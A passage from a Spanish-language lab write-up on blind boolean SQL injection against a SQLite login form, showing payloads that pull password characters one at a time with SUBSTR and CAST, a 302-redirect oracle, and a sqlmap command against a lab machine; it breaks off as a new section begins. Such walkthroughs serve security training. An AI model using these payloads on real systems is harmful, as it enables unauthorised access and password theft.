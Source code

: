 Siendo ‘t’ (0x74) y ‘T’(0x54).

```sql
SUBSTR((SELECT password FROM users LIMIT 0,1),1,1) = CAST(X'54' as Text)
```

Ahora hacemos uso de `CAST` para convertir la representación hexadecimal a un tipo de datos de texto en SQLite, además le añadimos los dos guiones para comentar el campo de la contraseña:

```sql
admin' AND SUBSTR((SELECT password FROM users LIMIT 0,1),1,1) = CAST(X'54' as Text)-- -
```

Siendo esta la petición que finalmente hará la base de datos:

```sql
SELECT id, username FROM users WHERE username = 'admin' AND SUBSTR((SELECT password FROM users LIMIT 0,1),1,1) = CAST(X'54' as Text)
```

Si la aplicación nos devuelve un redirección 302, significa que hemos encontrado el primer carácter de la contraseña. 

Esto es muy tedioso ya que deberíamos de ir carácter a carácter, por tanto, vamos a hacer uso de un script que lo hace automáticamente.

También podemos hacer uso de la herramienta externa `sqlmap` para llevar a cabo estos ataques con los parámetros:

```bash
sqlmap -u http://MACHINE_IP:5000/challenge3/login --data="username=admin&password=admin" --level=5 --risk=3 --dbms=sqlite --technique=b --dumpy
```

<div style="text-align: center; ">
    <img src="../assets/images/Labs/IntroSQLi/Untitled 10.png" alt="Untitled" onclick="openModal(this.src)" />
</div>

## Vulnerable Notes

Nos hemos topado con una base de datos que tiene todos los fallos anteriores fixed, por tanto, tendremos que buscar una nueva manera de poder acceder a la base de datos.

<div style="text-align: center; ">